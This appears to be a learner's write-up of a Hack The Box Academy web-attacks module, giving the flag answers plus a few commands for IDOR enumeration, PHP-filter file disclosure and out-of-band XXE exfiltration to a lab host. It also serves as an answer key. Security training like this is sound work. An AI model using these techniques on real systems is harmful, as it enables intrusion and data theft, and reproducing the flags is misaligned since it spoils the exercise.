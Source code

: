 # Web Attacks
* Source: [Hack the Box: Academy](https://academy.hackthebox.com/)
* Module: Web Attacks
* Tier: II
* Difficulty: Medium
* Category: Offensive
* Time estimate: 2 days
* Date: DD-MM-YYYY
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Bypassing Basic Authentication
### Question:
![](./attachments/Pasted%20image%2020220802101338.png)

*Hints: See what HTTP method is used by the web application, and then try to use a different one.*

![](./attachments/Pasted%20image%2020220802111223.png)

![](./attachments/Pasted%20image%2020220802111238.png)

**Answer:** `HTB{4lw4y5_c0v3r_4ll_v3rb5}`

---
## Bypassing Security Filters
### Question:
![](./attachments/Pasted%20image%2020220802101446.png)

*Hints: See which HTTP method the injection filter is using, and try to use a different one.*

![](./attachments/Pasted%20image%2020220802125956.png)

**Answer:** `HTB{b3_v3rb_c0n51573n7}`

---
## Mass IDOR Enumeration
### Question:
![](./attachments/Pasted%20image%2020220802101530.png)

*Hints: Try to enumerate all files, and not PDF's only, by changing the regex pattern to match any extension. Also, be sure to use the same HTTP request method as the web page.*

Fuzz the POST request, `{1...20}`. 

![](./attachments/Pasted%20image%2020220803145746.png)

![](./attachments/Pasted%20image%2020220803150040.png)

**Answer:** `HTB{4ll_f1l35_4r3_m1n3}`

---
## Bypassing Encoded References
### Question:
![](./attachments/Pasted%20image%2020220802101628.png)

*Hints: See what encoding/hashing method the page is using, and try to calculate the same thing for each employee's uid.*

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ for i in {1..20}; do echo -n $i | base64 -w 0 ; done
MQ==Mg==Mw==NA==NQ==Ng==Nw==OA==OQ==MTA=MTE=MTI=MTM=MTQ=MTU=MTY=MTc=MTg=MTk=MjA=
```

![](./attachments/Pasted%20image%2020220804120114.png)

**Answer:** `HTB{h45h1n6_1d5_w0n7_570p_m3}`

---
## IDOR in Insecure APIs
### Question:
![](./attachments/Pasted%20image%2020220802102134.png)

*Hints: Simply send a get request to the API endpoint ending with /5*

Edit the profile, and get the `GET` request in burp.

![](./attachments/Pasted%20image%2020220804122351.png)

**Answer:** `eb4fe264c10eb7a528b047aa983a4829`

---
## Chaining IDOR Vulnerabilities
### Question:
![](./attachments/Pasted%20image%2020220802102211.png)

*Hint: Don't forget to set the admin's correct uuid.*

![](./attachments/Pasted%20image%2020220804123619.png)

Generate a put request and insert the damin values with the new email.

![](./attachments/Pasted%20image%2020220804123851.png)

![](./attachments/Pasted%20image%2020220804123927.png)

**Answer:** `HTB{1_4m_4n_1d0r_m4573r}`

---
## Local File Disclosure
### Question:
![](./attachments/Pasted%20image%2020220802102253.png)

*Hints: Use PHP filters*

![](./attachments/Pasted%20image%2020220804133758.png)

```
┌──(kali㉿kali)-[~/Downloads]
└─$ echo "PD9waHAKCiRhcGlfa2V5ID0gIlVUTTFOak0wTW1SekoyZG1jVEl6TkQwd01YSm5aWGRtYzJSbUNnIjsKCnRyeSB7CgkkY29ubiA9IHBnX2Nvbm5lY3QoImhvc3Q9bG9jYWxob3N0IHBvcnQ9NTQzMiBkYm5hbWU9dXNlcnMgdXNlcj1wb3N0Z3JlcyBwYXNzd29yZD1pVWVyXnZkKGUxUGw5Iik7Cn0KCmNhdGNoICggZXhjZXB0aW9uICRlICkgewogCWVjaG8gJGUtPmdldE1lc3NhZ2UoKTsKfQoKPz4K" | base64 -d
<?php

$api_key = "UTM1NjM0MmRzJ2dmcTIzND0wMXJnZXdmc2RmCg";

try {
        $conn = pg_connect("host=localhost port=5432 dbname=users user=postgres password=iUer^vd(e1Pl9");
}

catch ( exception $e ) {
        echo $e->getMessage();
}

?>
```

**Answer:** `UTM1NjM0MmRzJ2dmcTIzND0wMXJnZXdmc2RmCg`

---
## Advanced File Disclosure
### Question:
![](./attachments/Pasted%20image%2020220802102332.png)

*Hints: Don't forget to point the 'file' to the flag in your local DTD file.*

![](./attachments/Pasted%20image%2020220804151251.png)

**Answer:** `HTB{3rr0r5_c4n_l34k_d474}`

---
## Blind Data Exfiltration
### Question:
![](./attachments/Pasted%20image%2020220802102511.png)

```
┌──(kali㉿kali)-[~/Downloads/XXEinjector]
└─$ ruby XXEinjector.rb --host=10.10.15.75 --httpport=8089 --file=xxe.req --path=/327a6c4304ad5938eaf0efb6cc3e53dc.php --oob=http --phpfilter 
XXEinjector by Jakub Pałaczyński

Enumeration options:
"y" - enumerate currect file (default)
"n" - skip currect file
"a" - enumerate all files in currect directory
"s" - skip all files in currect directory
"q" - quit

[-] Multiple instances of XML found. It may results in false-positives.
[+] Sending request with malicious XML.
[+] Responding with XML for: /327a6c4304ad5938eaf0efb6cc3e53dc.php
[+] Retrieved data:
[+] Nothing else to do. Exiting.
```

```
┌──(kali㉿kali)-[~/Downloads/XXEinjector]
└─$ cat Logs/10.129.3.201/327a6c4304ad5938eaf0efb6cc3e53dc.php.log
<?php $flag = "HTB{1_d0n7_n33d_0u7pu7_70_3xf1l7r473_d474}"; ?>
```

**Answer:** `HTB{1_d0n7_n33d_0u7pu7_70_3xf1l7r473_d474}`

---
## Skills Assessment
### Question:
![](./attachments/Pasted%20image%2020220802102527.png)

```
┌──(kali㉿kali)-[~/Downloads/XXEinjector]
└─$ python3                                                                                                                                
Python 3.10.5 (main, Jun  8 2022, 09:26:22) [GCC 11.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> for i in range(100):
...     print(i)
... 
0
1
2
3
(...)
97 
98 
99
```

![](./attachments/Pasted%20image%2020220805103116.png)

Admin token:

![](./attachments/Pasted%20image%2020220805110502.png)

![](./attachments/Pasted%20image%2020220805110700.png)

**Answer:** ``

---
**Tags:** [[Hack The Box Academy]]